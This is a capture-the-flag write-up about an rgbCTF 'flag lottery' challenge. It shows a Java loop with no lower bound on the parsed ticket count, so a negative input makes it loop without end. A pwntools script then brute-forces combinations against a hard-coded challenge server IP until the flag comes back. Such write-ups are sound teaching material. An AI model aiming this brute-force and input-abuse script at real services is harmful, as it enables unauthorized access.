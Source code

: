 This solve was made possible by, [Kieran](https://github.com/k-boyle), who pointed out that the bounds check was exploitable. Go give them a follow!
{: .notice--success}

Let's take a step back to see if we can find any other potential attack vectors in the code. If we take a look at how the program determines the number of tickets can be bought, we quickly find a loophole that we can exploit.

```java
int numTries = Integer.parseInt(in.nextLine());
// no lower bound!
if (numTries > 20) {
    System.out.println("Sorry, you don't have enough money to buy all of those. :(");
    System.exit(0);
}
// ...
// loop until i matches numTries
for (int i = 0; i != numTries; i++) {
}
```

Yup, because the program did not account for the lower-bound of the `parseInt` or explicitly use `parseUnsignedInt`, the user can enter a negative integer and it would happily take the input and loop infinitely for us until something breaks out of the loop. With that in mind, we can write a script that brute-forces the challenge for us.

```python
import pwn
pwn.context.timeout = 1
r = pwn.remote("167.172.123.213", 7425)
# while loop due to the quirkiness of pwntool's recv when dealing with tubes that delay for an abnormal amount of time
while True:
    l = r.recv(timeout=0.5)
    print(l)
    if 'buy?' in l.decode():
        break
r.sendline('-1')
print(r.recvline())
# attempts is an array of all combinations of 1 ~ 5
for attempt in attempts:
    try:
        print(r.recvline())
        r.sendline(attempt)
        print(attempt)
        print(r.recvline_contains('Congratulations', timeout=0.5))
        print(r.recvuntil('rgbCTF', timeout=pwn.Timeout.maximum))
    except:
        pass
```

In a nutshell, the Python script will continue to try for all the possible combinations until the flag was sent by the server. After a short while, I was able to get the following:

```python
b'Your ticket did not win. Try again.\n'
1 4 1 4 3
b'Congratulations, you win the flag lottery!'
b'rgbCTF{s0m3t1m3s_4ll_y0u_n33d_1s_f0rc3}\n'
```

